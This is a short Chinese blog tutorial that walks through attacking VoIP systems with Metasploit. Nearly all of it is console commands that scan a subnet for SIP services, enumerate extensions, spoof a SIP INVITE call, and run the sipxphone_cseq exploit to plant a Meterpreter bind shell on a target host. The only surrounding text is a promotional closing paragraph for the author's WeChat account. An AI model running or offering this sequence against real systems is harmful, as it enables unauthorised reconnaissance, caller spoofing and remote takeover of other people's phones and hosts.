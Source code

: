 ```yaml
---
layout: post
category: binghe-code-hack
title: Metasploit渗透VOIP
tagline: by 冰河
tag: [hack,binghe-code-hack]
excerpt: Metasploit渗透VOIP
lock: need
---
```


# Metasploit渗透VOIP

## 对VOIP服务踩点 

```
use auxiliary/scanner/sip/options
show options
set RHOSTS 192.168.109.0/24
run
```

## 扫描VOIP服务

```
use auxiliary/scanner/sip/enumerator
show options
set MINEXT 3000
set MAXEXT 3005
set PADLEN 4
set RHOSTS 192.168.109.0/24
run
```

## 欺骗VOIP电话

```
use auxiliary/voip/sip_invite_spoof
set RHOSTS 192.168.109.141
set EXTENSION 4444
show options
run
```

## 渗透VOIP

```
use exploit/windows/sip/sipxphone_cseq
set RHOST 192.168.109.141
set payload windows/meterpreter/bind_tcp
set LHOST 192.168.109.137
show options
exploit
```


## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)